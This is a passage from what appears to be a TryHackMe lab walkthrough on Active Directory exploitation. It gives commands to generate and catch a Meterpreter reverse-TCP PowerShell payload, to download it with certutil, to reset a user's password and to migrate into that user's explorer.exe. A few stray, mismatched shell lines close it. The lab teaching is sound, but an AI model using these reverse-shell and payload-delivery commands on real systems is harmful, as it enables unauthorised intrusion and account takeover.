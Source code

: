 Fortunately, Meterpreter provides us with a migrate feature, and since we are running as SYSTEM, we should be able to migrate to any process. You have remote code execution on THMSERVER1, use this to get a Meterpreter shell. If you need a recap on using Meterpreter and Metasploit, [here is a module on its use.](https://tryhackme.com/module/metasploit) However for a quick rundown, you can use the following command to generate a PowerShell meterpreter payload:

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=exploitad LPORT="Listening port" -f psh -o shell.ps1`

You can then also use the following to create the associated listener in the msfconsole:

`sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST exploitad; set LPORT "listening port'; exploit"` 

You can host your meterpreter shell using a Python webserver and then copy it using something like this:

`certutil.exe -urlcache -split -f http:///shell.ps1` 

Once you have a meterpreter shell, you can continue. The first step is to see if the users have any running processes on this machine:

```shell-session
meterpreter\>ps | grep "explorer"
Filtering on 'explorer'

Process List
============

 PID PPID Name Arch Session User Path
 --- ---- ---- ---- ------- ---- ----
 3612 3592 explorer.exe x64 1 THMSERVER1\trevor.local C:\Windows\explorer.exe
```

**Note:** If you do not see an explorer.exe process for the trevor.local user, you can start the process yourself by performing the following steps:

1. Reset the password of the trevor.local user using the following command: `net user trevor.local <chosen password>`
2. Run the following in powershell: `C:\auto-login.ps1 trevor.local <chosen password> THMSERVER1`
3. Reboot the server using `shutdown -r`
4. Once the server is back online, you should see the explorer process. 

It seems like we are lucky! The user has an active session on THMSERVER1. Let's migrate to a process of this user. The safest bet is usually sometime like explorer.exe:

```shell-session
meterpreter\>migrate 3612
[*] Migrating from 4408 to 3612...
[*] Migration completed successfully.
```

We can confirm that we are now running in the context of our target using the getuid command:

```shell-session
meterpreter\>getuid
Server username: THMSERVER1\trevor.local
```


[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> type C:\Users\Administrator\Desktop\flag2.txt